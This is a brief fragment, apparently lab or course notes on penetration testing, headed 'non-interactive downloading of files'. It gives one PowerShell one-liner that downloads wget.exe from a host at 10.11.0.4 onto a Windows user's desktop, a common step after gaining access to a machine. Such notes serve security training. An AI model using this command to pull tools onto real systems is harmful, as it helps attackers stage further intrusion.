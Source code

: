 # 1) non-interactive downloading of files
```ps
powershell -c "(new-object
System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Deskto
p\wget.exe')"
```
